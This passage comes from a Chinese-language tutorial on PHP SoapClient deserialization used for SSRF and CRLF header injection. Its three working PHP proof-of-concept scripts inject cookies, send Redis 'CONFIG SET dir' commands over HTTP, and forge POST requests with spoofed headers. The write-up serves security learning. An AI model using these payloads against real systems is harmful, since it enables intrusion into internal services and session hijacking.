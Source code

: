 首先在47.xxx.xxx.72上面起个监听：

然后执行上述代码，如下图所示成功触发SSRF，47.xxx.xxx.72上面收到了请求信息：

但是，由于它仅限于HTTP/HTTPS协议，所以用处不是很大。而如果这里HTTP头部还存在CRLF漏洞的话，但我们则可以通过SSRF+CRLF，插入任意的HTTP头。

如下测试代码，我们在HTTP头中插入一个cookie：

```php
    <?php
    $target = 'http://47.xxx.xxx.72:2333/';
    $a = new SoapClient(null,array('location' => $target, 'user_agent' => "WHOAMI\r\nCookie: PHPSESSID=tcjr6nadpk3md7jbgioa6elfk4", 'uri' => 'test'));
    $b = serialize($a);
    echo $b;
    $c = unserialize($b);
    $c->a();    // 随便调用对象中不存在的方法, 触发__call方法进行ssrf
    ?>
```

执行代码后，如下图所示，成功在HTTP头中插入了一个我们自定义的cookie：

可以再去drops回顾一下如何通过HTTP协议去攻击Redis的：[Trying to hack Redis via HTTP
requests](http://wooyun.jozxing.cc/static/drops/papers-3062.html)

如下测试代码：

```php
    <?php
    $target = 'http://47.xxx.xxx.72:6379/';
    $poc = "CONFIG SET dir /var/www/html";
    $a = new SoapClient(null,array('location' => $target, 'uri' => 'hello^^'.$poc.'^^hello'));
    $b = serialize($a);
    $b = str_replace('^^',"\n\r",$b); 
    echo $b;
    $c = unserialize($b);
    $c->a();    // 随便调用对象中不存在的方法, 触发__call方法进行ssrf
    ?>
```

执行代码后，如下图所示，成功插入了Redis命令：

这样我们就可以利用HTTP协议去攻击Redis了。

对于如何发送POST的数据包，这里面还有一个坑，就是 `Content-Type` 的设置，因为我们要提交的是POST数据 `Content-Type`
的值我们要设置为 `application/x-www-form-urlencoded`，这里如何修改 `Content-Type` 的值呢？由于
`Content-Type` 在 `User-Agent` 的下面，所以我们可以通过 `SoapClient` 来设置 `User-Agent` ，将原来的
`Content-Type` 挤下去，从而再插入一个新的 `Content-Type` 。

测试代码如下：

```php
    <?php
    $target = 'http://47.xxx.xxx.72:2333/';
    $post_data = 'data=whoami';
    $headers = array(
        'X-Forwarded-For: 127.0.0.1',
        'Cookie: PHPSESSID=3stu05dr969ogmprk28drnju93'
    );
    $a = new SoapClient(null,array('location' => $target,'user_agent'=>'wupco^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '. (string)strlen($post_data).'^^^^'.$post_data,'uri'=>'test'));
    $b = serialize($a);
    $b = str_replace('^^',"\n\r",$b);
    echo $b;
    $c = unserialize($b);
    $c->a();    // 随便调用对象中不存在的方法, 触发__call方法进行ssrf
    ?>
```
